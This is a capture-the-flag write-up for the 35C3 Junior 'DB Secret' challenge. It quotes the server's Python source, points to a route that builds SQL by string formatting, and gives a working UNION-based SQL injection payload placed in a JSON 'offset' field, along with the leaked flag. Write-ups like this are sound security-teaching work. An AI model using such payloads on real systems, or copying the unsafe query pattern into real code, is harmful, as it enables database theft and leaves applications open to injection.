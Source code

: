 # DB Secret

> Solves:61

> To enable secure microservices (or whatever, we don't know yet) over Wee in the future, we created a specific DB_SECRET, only known to us. This token is super important and extremely secret, hence the name. The only way an attacker could get hold of it is to serve good booze to the admins. Pretty sure it's otherwise well protected on our secure server.

>http://35.207.132.47/

> Difficulty Estimate: Medium

## Analysis

This is another challenge from wee series of challenges so we do have access to source code in /pyserver/server.py .
No flag giving mechanism is discovered upon source code examination, but we know that flag is stored in database:

```python
db.execute("INSERT INTO secrets(secret) values(?)", (DB_SECRET,))
```
This means we need to access database , pointing us to SQL injection vulnerability.

## Solution

Note: you need to be logged in in order for this solution to work, see (logged in writeup)[https://github.com/HackThisSite/CTF-Writeups/tree/master/2018/35C3-Junior/Logged-in]

I examined each query in code and most used secured parametrised statements, except one!

```python
@app.route("/api/getprojectsadmin", methods=["POST"])
def getprojectsadmin():
    # ProjectsRequest request = ctx.bodyAsClass(ProjectsRequest.class);
    # ctx.json(paperbots.getProjectsAdmin(ctx.cookie("token"), request.sorting, request.dateOffset));
    name = request.cookies["name"]
    token = request.cookies["token"]
    user, username, email, usertype = user_by_token(token)

    json = request.get_json(force=True)
    offset = json["offset"]
    sorting = json["sorting"]

    if name != "admin":
        raise Exception("InvalidUserName")

    sortings = {
        "newest": "created DESC",
        "oldest": "created ASC",
        "lastmodified": "lastModified DESC"
    }
    sql_sorting = sortings[sorting]

    if not offset:
        offset = datetime.datetime.now()

    return jsonify_projects(query_db(
        "SELECT code, userName, title, public, type, lastModified, created, content FROM projects WHERE created < '{}' "
	"ORDER BY {} LIMIT 10".format(offset, sql_sorting), one=False), username, "admin")
```
/api/getprojectsadmin has 2 json POST parameters offset and sorting, we can use offset parameter for UNION based SQL injection!

I sent following POST data (again don't forget you need to have name and token cookie aka you need to be logged in):
```
{"offset":"' UNION SELECT secret,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM secrets WHERE '1'='1", "sorting":"newest"}
```

Which gave result:
```
[{"code":"35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???","content":null,"created":null,"lastModified":null,"public":null,"title":null,"type":null,"userName":null}]
```
 
